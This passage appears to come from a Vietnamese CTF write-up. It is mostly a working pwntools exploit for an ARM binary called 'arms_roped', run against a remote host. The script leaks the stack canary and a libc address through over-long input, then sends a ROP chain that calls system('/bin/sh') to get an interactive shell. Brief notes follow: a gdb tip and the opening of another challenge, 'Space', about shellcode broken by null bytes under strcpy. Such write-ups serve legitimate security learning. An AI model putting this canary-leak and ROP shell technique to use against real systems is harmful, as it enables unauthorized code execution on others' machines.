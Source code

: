 from pwn import *

exe = ELF("./arms_roped_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.arch = 'arm'
context.log_level = 'debug'
#file arms_roped_patched
#set architecture arm
#target remote :1234
#b*string_storer+172
#b*string_storer+240
#c
#p = process(['qemu-arm', '-g' ,'1234' ,'./arms_roped_patched'])
p =remote('94.237.63.224',35577)
#p = process(['qemu-arm','g','1234', '-L', '/usr/arm-linux-gnueabihf', './arms_roped_patched'])
payload_leak_canary = b'a'*33
#input()
p.sendline(payload_leak_canary)

p.recvuntil(payload_leak_canary)

leak_canary = u32(b'\x00' + p.recv(3))
log.info(f"canary: {hex(leak_canary)}")

payload_leak_libc_start_main = b'a'*72
#input("leak_2")
p.sendline(payload_leak_libc_start_main)

p.recvuntil(payload_leak_libc_start_main)

leak_libc_start_main = u32(p.recv(4))
ld = leak_libc_start_main - 0x45525
libc.address = ld + 0x2e000



log.info(f"libc base {hex(libc.address)}")
#pop_r0_r4_pc = 0x00013bb4
pop_r0_r4_pc = libc.address + 0x0005bebc

payload_get_shell = b'quit'
payload_get_shell = payload_get_shell.ljust(32,b'l')
payload_get_shell += p32(leak_canary)
payload_get_shell = payload_get_shell.ljust(0x30,b'o')

payload_get_shell += p32(pop_r0_r4_pc)
payload_get_shell += p32(next(libc.search(b'/bin/sh\x00')))
payload_get_shell += p32(0)
payload_get_shell += p32(libc.sym.system)
p.sendline(payload_get_shell)


p.interactive()
```

còn 1 vấn đề nữa là khi vmmap thì kh thấy địa chỉ libc để tính nên bị đứng hơi lâu , dùng info proc map thay vmmap sẽ thấy được libc

-------

Space 
------

1 bài khá nhức đầu , ban đầu mình tưởng shellcode 17 byte là đủ và chạy hoài méo được , sau đó debug lại thì chợt nhớ strcpy nó chỉ coppy đến byte null và shellcode chứa bytenull cmnr :v  , nên sẽ suy nghĩ cách khác làm 

```